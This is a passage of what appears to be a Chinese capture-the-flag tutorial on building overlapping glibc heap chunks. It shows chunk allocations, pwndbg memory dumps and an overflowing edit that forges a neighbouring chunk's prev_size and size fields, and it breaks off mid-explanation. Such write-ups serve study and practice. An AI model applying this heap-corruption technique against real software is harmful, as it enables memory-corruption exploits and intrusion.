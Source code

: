 堆重叠构造

```python
add(0x18)#0
add(0x10)#1
add(0x90)#2
add(0x10)#3
```

先add3个chunk。3号chunk隔开topchunk

目前正常的chunk就长这样

在0x5565289df000:	0x0000000000000000	0x0000000000000021

后面的是chunk size 

1是size insure 0表示前面的chunk被释放 1表示在利用

前面一堆0是表示prve_size（前面chunk的大小）

0x5565289df010:	0x0000000000000000	0x0000000000000000

在64位中，chunk size下面的0x10大小的分别是fd bk指针的位置

```python
pwndbg> x/128gx 0x5565289df000
0x5565289df000:	0x0000000000000000	0x0000000000000021
0x5565289df010:	0x0000000000000000	0x0000000000000000
0x5565289df020:	0x0000000000000000	0x0000000000000021
0x5565289df030:	0x0000000000000000	0x0000000000000000
0x5565289df040:	0x0000000000000000	0x00000000000000a1
0x5565289df050:	0x0000000000000000	0x0000000000000000
0x5565289df060:	0x0000000000000000	0x0000000000000000
0x5565289df070:	0x0000000000000000	0x0000000000000000
0x5565289df080:	0x0000000000000000	0x0000000000000000
0x5565289df090:	0x0000000000000000	0x0000000000000000
0x5565289df0a0:	0x0000000000000000	0x0000000000000000
0x5565289df0b0:	0x0000000000000000	0x0000000000000000
0x5565289df0c0:	0x0000000000000000	0x0000000000000000
0x5565289df0d0:	0x0000000000000000	0x0000000000000000
0x5565289df0e0:	0x0000000000000000	0x0000000000000021
0x5565289df0f0:	0x0000000000000000	0x0000000000000000
0x5565289df100:	0x0000000000000000	0x0000000000020f01
```

现在我们修改chunk0把chunk0呢填满

然后下面跟着的chunk1我们把它大小改为0xa1

他的prve_size改为0x20

edit(0,34,'a'*0x10+p64(0x20)+p8(0xa1))

修改成功就这样，但是过不了检测的

chunk1此时被改成了0xa0大小

但是chunk2他这显示你不是
